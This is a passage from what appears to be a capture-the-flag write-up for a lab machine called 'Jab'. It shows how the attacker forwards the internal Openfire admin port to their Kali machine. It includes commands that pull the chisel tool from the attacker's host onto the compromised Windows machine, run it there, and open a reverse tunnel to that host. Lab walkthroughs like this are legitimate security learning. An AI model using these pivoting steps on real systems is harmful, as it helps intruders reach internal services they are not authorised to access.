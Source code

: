 ### Openfire tunneling

We can't really access `Openfire` on `Jab`, so we will try to tunnel the service on port `9090` to our machine.\
We will be using [this guide for chisel](https://infinitelogins.com/2020/12/11/tunneling-through-windows-machines-with-chisel/).

We get chisel, and set up a server to move it to `Jab`:
```bash
$ wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_windows_amd64.gz
$ gzip -d chisel_1.9.1_windows_amd64.gz
$ chmod +x chisel_1.9.1_windows_amd64
$ sudo python3 -m http.server 80
```

```bash
$ chisel server --reverse --port 9002
```

```powershell
PS C:\tmp> curl 'http://10.10.14.95/chisel_1.9.1_windows_amd64' -o C:\tmp\chisel.exe
PS C:\tmp> .\chisel.exe client 10.10.14.95:9002 R:9090:127.0.0.1:9090
```

Now we can access `Openfire` by opening `127.0.0.1:9090` on our kali machine.\
![openfire login](images/Jab-openfire-login.png)

Here we can also see that our user is admin:\
